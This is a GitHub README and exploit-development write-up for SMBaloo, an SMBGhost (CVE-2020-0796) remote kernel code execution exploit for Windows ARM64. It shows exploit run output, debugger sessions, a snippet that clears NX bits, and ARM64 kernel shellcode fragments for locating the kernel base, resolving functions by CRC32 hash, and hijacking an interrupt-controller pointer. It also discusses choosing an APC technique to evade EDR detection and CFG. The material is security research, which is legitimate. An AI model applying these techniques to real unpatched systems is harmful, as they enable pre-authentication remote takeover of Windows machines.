




# SMBaloo


A CVE-2020-0796 (aka "SMBGhost") exploit for Windows ARM64.

*Because vulnerabilities and exploits don't need to always have scary names and logos.*

* [**GitHub Repository**](https://www.github.com/msuiche/smbaloo): https://www.github.com/msuiche/smbaloo
* [**Original post on Comae's blog**](https://www.comae.com/posts/2020-07-01_smbaloo-building-a-rce-exploit-for-windows-arm64-smbghost-edition/): https://www.comae.com/posts/2020-07-01_smbaloo-building-a-rce-exploit-for-windows-arm64-smbghost-edition/
* **Author**: Matt Suiche ([@msuiche](https://www.twitter.com/msuiche))

# Acknowledgments
- [@hugeh0ge](https://twitter.com/hugeh0ge) for his great blogpost and [@chompie1337](https://twitter.com/chompie1337) for her excellent POC! On top of answering my questions on Twitter, their materials were really good and helped me immensely to understand the vulnerability and the exploitation part. Really HUGE kudos to both of them!
- ZecOps & Michael Maltsev  ([@m417z](https://twitter.com/m417z)) for their write-ups.
- Special thanks to Stephen Ridley ([@s7ephen](https://twitter.com/s7ephen)) for being the ultimate ARM64 enabler and a great Aniki. 
- Barnaby (RIP), I also gave a refresh to your APC injection technique. I hope you like it, we miss you.. Alex says hi.
- Thanks to Satoshi Tanda ([@standa_t](https://twitter.com/standa_t)) and Petr Beneš ([@PetrBenes](https://twitter.com/PetrBenes)) for helping me troubleshooting my original debugging set-up :)
- A big thanks to Sean Dillon ([@zerosum0x0](https://twitter.com/zerosum0x0)) for his prior work on SMB exploitation and our brainstorming sessions :)
- Laurent Gaffie ([@PythonResponder](https://twitter.com/PythonResponder)) for his prior work on SMB.
- The NSA for developing (or buying) (and leaking? Cheers to TheShadowBrokers) ETERNALBLUE and DOUBLEPULSAR, that exploit is soon gonna be 10 years old... it almost feels like nothing new got released since then.
- Microsoft Platform Security Assurance & Vulnerability Research for finding CVE-2020-0796.
- Nicolas Economou ([@NicoEconomou](https://twitter.com/NicoEconomou)) and Alex Ionescu ([@aionescu](https://twitter.com/aionescu)) for their publications on HAL stuff.
- Nikita Karetnikov ([@karetnikovn](https://twitter.com/karetnikovn)) for the ARM ninjutsu.
- Souhail Hammou ([@Dark_Puzzle](https://twitter.com/dark_puzzle?)) for making fun of APC ETW.
- And the OPCDE community for the continuous support! Join us on [Discord](https://discord.gg/Wp8Nzxh) or go on our [website](www.opcde.com) if the link is dead :)

# Introduction
Do not use this for anything else other than educational purposes, this was only tested on the only ARM64 machine (Windows 10 18362 ARM 64-bit (AArch64)) that I had a direct access to.
I have been happy enough that it was running consistently against it. Make sure that KB4551762 is not installed if you do some tests. I'm gonna try to make this write-up as readable as possible even if you have limited experience with exploit development, if you have any questions - do not hesitate just to come on Discord to ask them on the [OPCDE Discord server](https://discord.gg/Wp8Nzxh).
```bash
PS C:\Users\msuiche\Documents\dev\smbaloo> python.exe .\exploit.py -ip 169.254.82.219
[+] hal!HalpInterruptController found at 80009000!
[+] HalpInterruptController_VirtAddr at fffff7a700007000
[+] HalpGic3RequestInterrupt at fffff803bcdd5d70
[+] pHalpGic3RequestInterrupt at fffff7a700007078
[+] HalBase_VirtAddr at fffff803bcd9f000
[+] built shellcode!
[+] Wrote shellcode at fffff803bcd9f500!
[+] Press a key to execute shellcode!
[+] [fffff7a700007078] = fffff803bcd9f500
[+] overwrote HalpInterruptController pointer, should have execution shortly...
PS C:\Users\msuiche\Documents\dev\smbaloo>
```
## Vulnerability
First of all... What does an int overflow look like on ARM64? :-) It looks like the below, as you can see the 32-bits registers `w9` and `w8` are added to each other and **BOOM**.



## Exploitation
### MDL-assisted physical memory read
Kudos to [@hugeh0ge](https://twitter.com/hugeh0ge) who first wrote about exploiting SMBGhost (CVE-2020-0796) and introduced how to [leverage Memory Descriptor Lists (MDL) to read physical memory pages](https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html). This is definitely a great blogpost to understand how to exploit the vulnerability, it was especially helpful when I was reading [chompie's excellent exploit](https://github.com/chompie1337/SMBGhost_RCE_PoC). Although, while trying to use chompie's exploit, I kept getting primitive physical read failures when trying to read physical pages, which will be discussed below. 

Here are some of the commands I used for debugging my MDLs:
```bash
bp srv2!Srv2DecompressData+0x7c
bp srv2!Srv2DecompressData+0xd0
bp srvnet!SrvNetSendData

r w9; r w8; r w0; p;r x0;.printf "(srv2!Srv2DecompressData post allocation)\nSRVNET_BUFFER_HEADER: %p\nPNET_RAW_BUFF_OFFSET: %p\nPMDL1_OFFSET: %p\n", @x0, poi(@x0+0x18), poi(@x0+0x38);g
.printf "(srv2!Srv2DecompressData pre uncompression)\nSRVNET_BUFFER_HEADER: %p\nPNET_RAW_BUFF_OFFSET: %p\nPMDL1_OFFSET: %p\n", @x19, poi(@x19+0x18), poi(@x19+0x38);p;r x19;.printf "(srv2!Srv2DecompressData post uncompression)\nSRVNET_BUFFER_HEADER: %p\nPNET_RAW_BUFF_OFFSET: %p\nPMDL1_OFFSET: %p\n", @x19, poi(@x19+0x18), poi(@x19+0x38);g
.printf "(srvnet!SrvNetSendData)\nMDL: %p\n", poi(@x1+8);dt nt!_MDL poi(@x1+8);dq poi(@x1+8)+0x30 L3;
```

After debugging `srvnet!SrvNetSendData` I noticed that the function wasn't reading the Page Frame Numbers (PFNs) that were added after the constructed MDL. This was due to the fact that `MdlFlags` was set to `0x501C` instead of `0x5018` where the `MDL_SOURCE_IS_NONPAGED_POOL` should not be present. 

| MdlFlags: 0x5018           | Mdl Flags: 0x501C           |
|----------------------------|-----------------------------|
| MDL_ALLOCATED_FIXED_SIZE   | MDL_ALLOCATED_FIXED_SIZE    |
| MDL_PARTIAL                | MDL_PARTIAL                 |
| MDL_NETWORK_HEADER         | MDL_NETWORK_HEADER          |
| MDL_ALLOCATED_MUST_SUCCEED | MDL_ALLOCATED_MUST_SUCCEED  |
|                            | MDL_SOURCE_IS_NONPAGED_POOL |

Thanks to the `MmGetSystemAddressForMdlSafe()` macro for the hint.

```cpp
#define MmGetSystemAddressForMdlSafe(MDL, PRIORITY)           \
        (((MDL)->MdlFlags & (MDL_MAPPED_TO_SYSTEM_VA |        \
                        MDL_SOURCE_IS_NONPAGED_POOL)) ?       \
                             ((MDL)->MappedSystemVa) :        \
                        (MmMapLockedPagesSpecifyCache((MDL),  \
                                                  KernelMode, \
                                                  MmCached,   \
                                                  NULL,       \
                                                  FALSE,      \
                                                  (priority))))
```

Now that we do have the ability to read physical pages, one of the first things that I realized is that in some cases I wasn't able to read certain physical addresses because they were not part of the actual physical memory layout and it would then hang or BSoD. I wrote a piece about retrieving the physical memory layout using `MmGetPhysicalMemoryRanges()` structures in 2008 [(cached here, since my old blog is down)](http://blog.csdn.net/iiprogram/article/details/3080059), as it was a common problem for a lot of memory acquisition tools that DumpIt solved in the early days. Funny enough, everyone else was so obsessed with raw dumps that they didn’t really know what raw memory was. Many were trying to read from 0x0 to `HighestPhysicalMemoryAddress` even though some blocks in that address space may be reserved for other devices memory such as graphics cards or not even allocated. If you watch my old [BlackHat 2010 - Blue screen of death is dead](https://youtu.be/kgoiN7oB6Y4?t=904) presentation, I do cover it when explaining a simple physical memory layout.

There is another potential (and interesting) reason, where it is impossible to read physical memory pages on ARM64 that definitely deserves more attention which is that the visible physical address space between Secure World and Normal World can be different. This is also the main reason I stopped trying to use the TTBR (PML4 on x64) Self Reference technique where you look for the `KSHARED_USER_DATA` PTE and flip the NX bits to load my kernel shellcode.

A system could be designed to have [two entirely separate memory systems](https://developer.arm.com/docs/den0024/a/the-memory-management-unit/translating-a-virtual-address-to-a-physical-address/secure-and-non-secure-addresses) where the Normal world can only access the non-secure physical address space and the secure world can access both via providing both Worlds different translation tables (TTBR).



I highly suspect that this is what happens when we are trying to read some of the kernel page tables, which prevents us from reading the TTBR1 table. An easy way to read the `TTBR1` value (and also `Vbar_El1` which we will cover later) during debugging is to read the `Pcr[n].Prcb.ProcessorState.ArchState` values. This information is particularly useful especially when we don't want to enable kernel debugging on a machine, where we can just generate a full memory dump with DumpIt ARM64 (available since 2019) and read those values.

```bash
0: kd> dx -id 0,0,ffffda8cc8c7e180 -r1 (*((ntkrnlmp!_KARM64_ARCH_STATE *)0xfffff800dbab0a60))
(*((ntkrnlmp!_KARM64_ARCH_STATE *)0xfffff800dbab0a60))                 [Type: _KARM64_ARCH_STATE]
    [+0x000] Midr_El1         : 0x517f803c [Type: unsigned __int64]
    [+0x008] Sctlr_El1        : 0x30d0591d [Type: unsigned __int64]
    [+0x010] Actlr_El1        : 0x0 [Type: unsigned __int64]
    [+0x018] Cpacr_El1        : 0x300000 [Type: unsigned __int64]
    [+0x020] Tcr_El1          : 0x95b5513511 [Type: unsigned __int64]
    [+0x028] Ttbr0_El1        : 0x400000800a9000 [Type: unsigned __int64]
    [+0x030] Ttbr1_El1        : 0x400000800a9800 [Type: unsigned __int64]
    [+0x038] Esr_El1          : 0xf200f000 [Type: unsigned __int64]
    [+0x040] Far_El1          : 0x1b6ebff1000 [Type: unsigned __int64]
    [+0x048] Pmcr_El0         : 0x0 [Type: unsigned __int64]
    [+0x050] Pmcntenset_El0   : 0x0 [Type: unsigned __int64]
    [+0x058] Pmccntr_El0      : 0x0 [Type: unsigned __int64]
    [+0x060] Pmxevcntr_El0    [Type: unsigned __int64 [31]]
    [+0x158] Pmxevtyper_El0   [Type: unsigned __int64 [31]]
    [+0x250] Pmovsclr_El0     : 0x0 [Type: unsigned __int64]
    [+0x258] Pmselr_El0       : 0x0 [Type: unsigned __int64]
    [+0x260] Pmuserenr_El0    : 0x0 [Type: unsigned __int64]
    [+0x268] Mair_El1         : 0x44bb00ff44bb00ff [Type: unsigned __int64]
    [+0x270] Vbar_El1         : 0xfffff800dfc03000 [Type: unsigned __int64]
```

Due to limited access to ARM64 machines, I was not able to verify this further but on my testing laptop (Lenovo Yoga C630) the `Ttbr0_El1` PFN has consistently been `0x800a9000` across 50-100 reboots - this means that this value is probably not randomized which could be verified by reversing `bootmgfw!MmArm64pAllocateAndInitializePageTables`. I am not saying that the value is static across different environments but that it could be easily predicted.



At this point, we can make two assumptions:
- KASLR is used on kernel virtual addresses but it does not seem to always be the case for early physical addresses.
- It seems that we can't read physical page tables.

What about other potential physical addresses that we could use, such as `hal!HalpInterruptController`? Bingo!

```bash
0: kd> !pte poi(hal!HalpInterruptController)
                                           VA fffff7f3c0007000
PXE at FFFFF67B3D9ECF78    PPE at FFFFF67B3D9EFE78    PDE at FFFFF67B3DFCF000    PTE at FFFFF67BF9E00038
contains 0060000084600F03  contains 00E0000084603F03  contains 00E0000084604F03  contains 00E0000080009F03
pfn 84600      -R--ADK--V  pfn 84603      -W--ADK--V  pfn 84604      -W--ADK--V  pfn 80009      -W--ADK--V
```

Again, on my machine `poi(hal!HalpInterruptController)` PFN happened to be constant across multiple reboots with a physical address of `0x80009000` (with debug mode on. Thanks to DumpIt, the value is `0x80005000` when debug mode is off) - and this happened also to be true on a different machine where it was `0x40009000`.

We can already see a pattern where the PFN for `poi(hal!HalpInterruptController)` is `nt!MmPhysicalMemoryBlock->Run[0].BasePage + 0x9`.

**Machine 1**
```bash
0: kd> dt poi(nt!MmPhysicalMemoryBlock)  nt!_PHYSICAL_MEMORY_DESCRIPTOR -a Run[0].
   +0x010 Run     : [0] 
      +0x000 BasePage : 0x80000
      +0x008 PageCount : 0x400

0: kd> !pte poi(hal!HalpInterruptController)
                                           VA fffff7f3c0007000
PXE at FFFFF67B3D9ECF78    PPE at FFFFF67B3D9EFE78    PDE at FFFFF67B3DFCF000    PTE at FFFFF67BF9E00038
contains 0060000084600F03  contains 00E0000084603F03  contains 00E0000084604F03  contains 00E0000080009F03
pfn 84600      -R--ADK--V  pfn 84603      -W--ADK--V  pfn 84604      -W--ADK--V  pfn 80009      -W--ADK--V
```
**Machine 2**
```bash
5: kd> dt poi(nt!MmPhysicalMemoryBlock)  nt!_PHYSICAL_MEMORY_DESCRIPTOR -a Run[0].
   +0x010 Run     : [0] 
      +0x000 BasePage : 0x40000
      +0x008 PageCount : 0x2bb

5: kd> !pte poi(hal!HalpInterruptController)
                                           VA fffff79280007000
PXE at FFFF82C160B05F78    PPE at FFFF82C160BEF250    PDE at FFFF82C17DE4A000    PTE at FFFF82FBC9400038
contains 0060000085500F03  contains 00E0000085603F03  contains 00E0000085604F03  contains 00E0000040009703
pfn 85500      -R--ADK--V  pfn 85603      -W--ADK--V  pfn 85604      -W--ADK--V  pfn 40009      -W-GADK--V
```

We can now remotely and consistently read `poi(hal!HalpInterruptController)` physical address! **Bingo!**

You can read the `ReadHalInterruptController()` function of the exploit for more details.

### Generic Interrupt Controller (GIC) Table 

Once we read `hal!HalpInterruptController` we can easily verify the structure with some simple checks such as the null fields or in our case with `SMBaloo` the constant value (probably a size) at `poi(hal!HalpInterruptController)+0x18` which is `0x545`.

```bash
0: kd> dq poi(hal!HalpInterruptController)+0x18 L1
HalpInterruptController_Sig = 0x00000545
```

It is then very easy to retrieve the hal base address from one of the function virtual address by substracting the function offsets.

```bash
0: kd> dps poi(hal!HalpInterruptController)
fffff7f3`c0007000  fffff800`dfbd7370 hal!HalpRegisteredInterruptControllers
fffff7f3`c0007008  fffff800`dfbd7370 hal!HalpRegisteredInterruptControllers
fffff7f3`c0007010  fffff7f3`c0007158
fffff7f3`c0007018  00000000`00000545
fffff7f3`c0007020  fffff800`df8c7640 hal!HalpGic3InitializeLocalUnit
fffff7f3`c0007028  fffff800`df8c7450 hal!HalpGic3InitializeIoUnit
fffff7f3`c0007030  fffff800`df89b2c0 hal!HalpGic3SetPriority
fffff7f3`c0007038  00000000`00000000
fffff7f3`c0007040  00000000`00000000
fffff7f3`c0007048  00000000`00000000
fffff7f3`c0007050  00000000`00000000
fffff7f3`c0007058  fffff800`df8c71a0 hal!HalpGic3AcceptAndGetSource
fffff7f3`c0007060  fffff800`df89b2e0 hal!HalpGic3WriteEndOfInterrupt
fffff7f3`c0007068  00000000`00000000
fffff7f3`c0007070  fffff800`df8c7ea0 hal!HalpGic3SetLineState
fffff7f3`c0007078  fffff800`df8c7d70 hal!HalpGic3RequestInterrupt
```

```bash
0: kd> !itoldyouso hal
hal.dll
    Timestamp: 4328224B
    SizeOfImage: 36F000
          pdb: hal.pdb
          pdb sig: 24BF0D45-4FA0-30FF-4791-CA91A5EAD872
          age: 1
0: kd> ? hal!HalpRegisteredInterruptControllers - hal
Evaluate expression: 3433328 = 00000000`00346370
```

More importantly, we need to decide which entry to patch to trigger our kernel payload. As you can see, instead of Advanced Programmable Interrupt Controller (APIC) - the ARM64 Operating System is using [Generic Interrupt Controller (GIC) version 3](http://bos.itdks.com/855dbb545f004e9da1c603f3bcc0a917.pdf).

The [GICv3 architecture](https://static.docs.arm.com/ihi0069/c/IHI0069C_gic_architecture_specification.pdf) is designed to operate with ARMv8-A and ARMv8-R compliant processing elements (PEs).



The Generic Interrupt Controller (GIC) architecture defines:
- The architectural requirements for handling all interrupt sources for any PE connected to a GIC.
- A common interrupt controller programming interface applicable to uniprocessor or multiprocessor systems.

In the `SMBaloo` exploit, I decided to patch the `hal!HalpGic3RequestInterrupt` entry which would be the equivalent of `hal!HalpApicRequestInterrupt`.
# Shellcode
`KUSER_SHARED_DATA` is a popular option to copy and execute kernel payloads, although you do have to flip the NX bits before patching the Interrupt Controller table entry. We will explore this option before discussing a second option which I ended up using for `SMBaloo`.
### TTBR Self Ref?
#### TTBR Self Ref and NX bits
If we look at TTBR page table in Windbg, we will see that just like for the main PML4 page table, there is a self-reference entry which we can use for finding the virtual address of the `KUSER_SHARED_DATA` PTE.

The only notable difference with x64 systems is that the No Execute bitfield positions are different and exist as two separate values `PrivilegedNoExecute` (EL1 - Kernelland) and `UserNoExecute` (EL0 - Userland).
```python
    # Clear NX bit
    # This is different on ARM64
    # MMPTE_HARDWARE.PrivilegedNoExecute = False
    # MMPTE_HARDWARE.UserNoExecute = False
    overwrite_val = pte_val & ~(3 << 53)
```

```bash
0: kd> dt nt!_MMPTE_HARDWARE
   +0x000 Valid            : Pos 0, 1 Bit
   +0x000 NotLargePage     : Pos 1, 1 Bit
   +0x000 CacheType        : Pos 2, 2 Bits
   +0x000 OsAvailable2     : Pos 4, 1 Bit
   +0x000 NonSecure        : Pos 5, 1 Bit
   +0x000 Owner            : Pos 6, 1 Bit
   +0x000 NotDirty         : Pos 7, 1 Bit
   +0x000 Sharability      : Pos 8, 2 Bits
   +0x000 Accessed         : Pos 10, 1 Bit
   +0x000 NonGlobal        : Pos 11, 1 Bit
   +0x000 PageFrameNumber  : Pos 12, 36 Bits
   +0x000 reserved1        : Pos 48, 4 Bits
   +0x000 ContiguousBit    : Pos 52, 1 Bit
   +0x000 PrivilegedNoExecute : Pos 53, 1 Bit
   +0x000 UserNoExecute    : Pos 54, 1 Bit
   +0x000 Writable         : Pos 55, 1 Bit
   +0x000 CopyOnWrite      : Pos 56, 1 Bit
   +0x000 PdeLocked        : Pos 57, 1 Bit
   +0x000 PdeContended     : Pos 58, 1 Bit
   +0x000 PxnTable         : Pos 59, 1 Bit
   +0x000 UxnTable         : Pos 60, 1 Bit
   +0x000 ApTable          : Pos 61, 2 Bits
   +0x000 NsTable          : Pos 63, 1 Bit
```

But remember, we can't read physical page tables with our MDL-assisted physical page read :( I used this technique during my initial tests by hardcoding the PTE virtual address and PTE value until I found a more reliable technique which I cover in the next section.

### Why flipping bits? When you don't have to.
After thinking about it, I was asking myself why was I even trying to patch a PTE entry in the first place. I was getting tired of copy pasting the virtual address from the debugger into my exploit which really started to feel silly after a while. All we need is an executable page, right?

I love big pages, I cannot lie. Since kernel modules are mapped in memory over a large page, it means that we can used the header space to store our kernel payload as it will be marked as executable just like the rest of the binary. And since we recovered the hal base address in the previous section, we are good to go without touching the `KUSER_SHARED_DATA` PTE. Although, in order to avoid overwriting the header, I use a delta offset of `hal+0x500` (`pshellcodeva = HalBase_VirtAddr + 0x500`) for my payload which gives us a decent 0xb00 of usable executable space.

```bash
0: kd> !pte nt
                                           VA fffff800dfc00000
PXE at FFFFF67B3D9ECF80    PPE at FFFFF67B3D9F0018    PDE at FFFFF67B3E0037F0    PTE at FFFFF67C006FE000
contains 0060000084609F03  contains 006000008460AF03  contains 00C000009C000F01  contains 0000000000000000
pfn 84609      -R--ADK--V  pfn 8460a      -R--ADK--V  pfn 9c000      -WX-ADK-LV  LARGE PAGE pfn 9c000       

0: kd> !pte hal
                                           VA fffff800df891000
PXE at FFFFF67B3D9ECF80    PPE at FFFFF67B3D9F0018    PDE at FFFFF67B3E0037E0    PTE at FFFFF67C006FC488
contains 0060000084609F03  contains 006000008460AF03  contains 00C000009BC00F01  contains 0000000000000000
pfn 84609      -R--ADK--V  pfn 8460a      -R--ADK--V  pfn 9bc00      -WX-ADK-LV  LARGE PAGE pfn 9bc91       

0: kd> dt nt!_MMPTE_HARDWARE FFFFF67B3E0037E0
   +0x000 Valid            : 0y1
   +0x000 NotLargePage     : 0y0
   +0x000 CacheType        : 0y00
   +0x000 OsAvailable2     : 0y0
   +0x000 NonSecure        : 0y0
   +0x000 Owner            : 0y0
   +0x000 NotDirty         : 0y0
   +0x000 Sharability      : 0y11
   +0x000 Accessed         : 0y1
   +0x000 NonGlobal        : 0y1
   +0x000 PageFrameNumber  : 0y000000000000000010011011110000000000 (0x9bc00)
   +0x000 reserved1        : 0y0000
   +0x000 ContiguousBit    : 0y0
   +0x000 PrivilegedNoExecute : 0y0 // <=============== <3 <3 <3 <3 <3 <3 
   +0x000 UserNoExecute    : 0y1
   +0x000 Writable         : 0y1
   +0x000 CopyOnWrite      : 0y0
   +0x000 PdeLocked        : 0y0
   +0x000 PdeContended     : 0y0
   +0x000 PxnTable         : 0y0
   +0x000 UxnTable         : 0y0
   +0x000 ApTable          : 0y00
   +0x000 NsTable          : 0y0
```

## Kernel
### Shadow Stack
In ARM64, there is no `PUSHAD`/`POPAD` - and not even any `PUSH`/`POP` instructions but we still need to carefully save our registers including function arguments that are passed via registers. Registers from `x0-x7` are used for passing parameters, as we want to redirect correctly to the original `hal!HalpGic3RequestInterrupt` we don't want them to be overwritten and while we are at it, we want something more generic that works like a PUSHAD/POPAD.

| Register | Volatile?    | Role                                                                                                                                                                                      |
|----------|--------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| x0       | Volatile     | Parameter/scratch register 1, result register                                                                                                                                             |
| x1-x7    | Volatile     | Parameter/scratch register 2-8                                                                                                                                                            |
| x8-x15   | Volatile     | Scratch registers.                                                                                                                                                                        |
| x16-x17  | Volatile     | Intra-procedure-call scratch registers                                                                                                                                                    |
| x18/xpr  | Non-volatile | Platform register. Points to KPCR (Kernel mode), to TEB (User-mode). This should never be overwritten.                                                                                    |
| x19-x28  | Non-volatile | Scratch registers.                                                                                                                                                                        |
| x29/fp   | Non-volatile | Frame pointer. The frame pointer (x29) is required for compatibility with fast stack walking used by ETW and other services. It must point to the previous {x29, x30} pair on the stack.  |
| x30/lr   | Non-volatile | Link registers. This one is particularly important when hooking functions as it contains the original return address. It also gets overwritten each time we use a `call` instruction!     |

Note that unlike AArch32, the program counter (PC) and the stack pointer (SP) aren't indexed registers.

In short, we need to allocate a frame space on the stack (sp) - and store all our registers inside of it using `stp`/`str` instructions and we will restore them using the `ldp`/`ldr` instructions.

**PUSHAD**
```asm
    sub    sp, sp, #S_FRAME_SIZE
    stp    x0, x1, [sp, #16 * 0]
    stp    x2, x3, [sp, #16 * 1]
    stp    x4, x5, [sp, #16 * 2]
    stp    x6, x7, [sp, #16 * 3]
    stp    x8, x9, [sp, #16 * 4]
    stp    x10, x11, [sp, #16 * 5]
    stp    x12, x13, [sp, #16 * 6]
    stp    x14, x15, [sp, #16 * 7]
    stp    x16, x17, [sp, #16 * 8]
    stp    xpr, x19, [sp, #16 * 9]
    stp    x20, x21, [sp, #16 * 10]
    stp    x22, x23, [sp, #16 * 11]
    stp    x24, x25, [sp, #16 * 12]
    stp    x26, x27, [sp, #16 * 13]
    stp    x28, x29, [sp, #16 * 14]
    str    lr, [sp, #16 * 15]
```
**POPAD**
```asm
    ldp    x0, x1, [sp, #16 * 0]
    ldp    x2, x3, [sp, #16 * 1]
    ldp    x4, x5, [sp, #16 * 2]
    ldp    x6, x7, [sp, #16 * 3]
    ldp    x8, x9, [sp, #16 * 4]
    ldp    x10, x11, [sp, #16 * 5]
    ldp    x12, x13, [sp, #16 * 6]
    ldp    x14, x15, [sp, #16 * 7]
    ldp    x16, x17, [sp, #16 * 8]
    ldp    xpr, x19, [sp, #16 * 9]
    ldp    x20, x21, [sp, #16 * 10]
    ldp    x22, x23, [sp, #16 * 11]
    ldp    x24, x25, [sp, #16 * 12]
    ldp    x26, x27, [sp, #16 * 13]
    ldp    x28, x29, [sp, #16 * 14]
    ldr    lr, [sp, #16 * 15]
    add    sp, sp, #S_FRAME_SIZE
```
### Accessing PCR
`x18` or `xpr` points to `KPCR` for the current processor in kernel mode, and points to TEB in user mode. This allows us to get the `System` EPROCESS object address (`GetPcr()->PsGetCurrentThread()->PsGetCurrentProcess()`)
```asm
    ldr     x8, [xpr, #0x988]; PsGetCurrentThread()
    ldr     x3, [x8, #ETHREAD_PROCESS_OFFSET] ; PsGetCurrentProcess()
    add     x0, x3, #EPROCESS_IMAGEFILENAME_OFFSET ; name
```
### Ntoskrnl base address
`VBAR_EL1`, Vector Base Address Register (EL1), holds the vector base address for any exception that is taken to EL1 (Kernel), and this vector base address (`nt!KiArm64ExceptionVectors`) resides inside `ntoskrnl.exe`.
`VBAR_EL1` is initialized by `ntoskrnl!KiInitializeExceptionVectorTable`. There is also a Vector Base Address Register for EL2 and EL3. Bruce Dang wrote a nice article about [system call dispatching on Windows ARM64](https://gracefulbits.com/2018/07/26/system-call-dispatching-for-windows-on-arm64/) which covers how `VBAR_EL1` is used by the Windows ARM64 Kernel.

Once we get the address of `nt!KiArm64ExceptionVectors` we can just walk it backwards until we find the `MZ` file header of the image.
```asm
    ; Search for NTBase
    mrs     x4, VBAR_EL1
    ldrh    w8, [x4]
    mov     w9, #0x5A4D
    cmp     w8, w9
    beq     xxx_break_nt_base

xxx_loop_nt_base
    sub     x4, x4, #1, lsl#12
    ldrh    w8, [x4]
    cmp     w8, w9
    bne     xxx_loop_nt_base
```

### Hashing functions
ARM64 processors have built-in [CRC32 opcodes](https://android.googlesource.com/platform/external/linux-kselftest/+/d97034ccdf0a13ad86f00945df245bbaf0780478/arch/arm64/crypto/crc32-arm64.c) that can be leveraged for hashing buffers, this is quiet nice and I decided to use `crc32b` for my `GetProcAddress` implementation.

```asm
xxxComputeHash PROC
    mov     x9, x0
    ldrsb           w8, [x9]
    mov     w0, #0
    mov     w10, #0
    cbz     w8, xxx_compute_hash_exit

xxx_compute_hash_loop
    add     w10, w10, #1
    crc32b          w0, w0, w8
    ldrsb           w8, [x9,w10,sxtw]
    cbnz    w8, xxx_compute_hash_loop

xxx_compute_hash_exit
    ret
    ENDP
```

### Fool me once, shame on you; fool me twice...
Unlike other kernel shellcodes that are using APC (Asynchronous Procedure Call) twice, I use it only once to run my kernel APC but not for my userland payload. [Souhail Hammou posted last year](http://rce4fun.blogspot.com/2019/04/circumventing-windows-defender-atps.html) that Windows Defender ATP (and probably all the other EDRs relying on ETW events...) detects user-mode APC injection from kernel-mode, and hugeh0ge also [mentioned](https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html) that the userland Control Flow Guard (CFG) intercepts calls via  `ntdll!KiUserApcDispatch -> ntdll!LdrpValidateUserCallTarget` before executing any APC injected shellcode. This would require us to patch `ntdll!LdrpValidateUserCallTarget` to have a successful execution. 

I did write about why [event-driven detections (most EDRs) have blindspots](https://www.comae.com/posts/2019-04-24_how-to-solve-the-blindspots-of-event-driven-detection/) last year by looking at APC code injection technique as a case study. Here is a timeline of events from when Barnaby Jack first published it at BlackHat 2005.


